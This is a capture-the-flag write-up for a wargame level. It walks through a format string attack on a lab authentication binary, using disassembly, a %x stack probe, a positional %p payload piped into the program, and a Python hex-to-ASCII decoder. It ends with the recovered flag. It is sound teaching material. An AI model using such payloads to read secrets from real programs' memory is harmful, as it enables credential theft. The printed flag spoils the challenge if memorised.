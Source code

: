 # Format string attack again
On this level we have another authentication system, we notice on theses lines that our program recovers the password from the next level to write it on the stack :

    0000000000400814 <main>:
    ...
    40089d:	b8 b2 0b 40 00       	mov    $0x400bb2,%eax
    4008a2:	48 89 d6             	mov    %rdx,%rsi
    4008a5:	48 89 c7             	mov    %rax,%rdi
    4008a8:	e8 53 fe ff ff       	callq  400700 <fopen@plt>
    ...
    4008e6:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
    4008ed:	48 8b 55 f8          	mov    -0x8(%rbp),%rdx
    4008f1:	48 89 d1             	mov    %rdx,%rcx
    4008f4:	ba 29 00 00 00       	mov    $0x29,%edx
    4008f9:	be 01 00 00 00       	mov    $0x1,%esi
    4008fe:	48 89 c7             	mov    %rax,%rdi
    400901:	e8 8a fd ff ff       	callq  400690 <fread@plt>


Content of **0x400bb2** :

    (gdb) x/s 0x400bb2
    0x400bb2:        "/home/users/level03/.pass"





Subsequently we can notice a **`printf()`** which prints the username, therefore an entry from us.

Since the password resides on the stack and **`printf()`** is vulnerable to format string attacks, we'll use it to read into memory this time.

 The **$RSP** has been subtracted from **0x120** Bytes at the prolog, and the contents of the next level password are set to **` $RBP-0xa0`**,  so we need to determine an offset. To do this, we know that the buffer that **`printf()`** uses starts at **` $RBP-0x70`**, so if we guess the position of this buffer in the stack, we could calculate the exact position of the password located at **` $RBP-0xa0`**.

The stack frame contains in the 28th position our buffer from the start at the time of printf execution.



    --[ Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 

    AAAA ffffe3d0 0 61 2a2a2a2a 2a2a2a2a ffffe5c8 f7ff9a08 647361 0 0 0 0 0 0 0 0 0 0 0 0 0 34376848 61733951 574e6758 6e475873 664b394d 0 41414141 25207825 20782520 78252078  does not have access!



```
|---------------------|
|        AAAA         | <--- Buffer location RBP-0x70 (At 28th position from the printf stackframe)
|---------------------|
|     48 Bytes Gap    |
|---------------------|
|   ***************   | <--- Password location RBP-0xa0
|---------------------|
|     Unknown gap     |
|---------------------|
|         ...         | <--- printf() stackframe
|---------------------|
|         ...         | <--- //
|---------------------|
|         ...         | <--- //
|---------------------|

```

Given that between the buffer & password location we have a space of 48 bytes, we divide **`48 / 8 = 6`**, because a position with our specified type is equal to 8 bytes, consequently we must subtract 6 positions from 28 which leaves us at position 22th. Our password is exactly 41 bytes, so we need 5 %p and respect the little little endianness convention.

Here is the python script which allows us to convert the hexa little endian format into our flag.

```py
python -c 'print "%26$p %25$p %24$p %23$p %22$p\n"' | ./level02
```


```py
def little_endian_to_big_endian(hex_string):
    if len(hex_string) % 2 != 0:
        raise ValueError("Format error")
    hex_pairs = [hex_string[i:i+2] for i in range(0, len(hex_string), 2)]
    big_endian_hex = ''.join(reversed(hex_pairs))
    return big_endian_hex

def hex_to_ascii(hex_string):
    hex_string = hex_string.replace('0x', '')
    hex_string = little_endian_to_big_endian(hex_string)
    ascii_string = bytes.fromhex(hex_string).decode('utf-8')
    return ascii_string

hex_strings = [
    "0x756e505234376848",
    "0x45414a3561733951",
    "0x377a7143574e6758",
    "0x354a35686e475873",
    "0x48336750664b394d"
]

concatenated_ascii = ""

for hex_str in hex_strings:
    concatenated_ascii += hex_to_ascii(hex_str)

print("Concatenated ASCII: ", concatenated_ascii)

```

> flag : Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
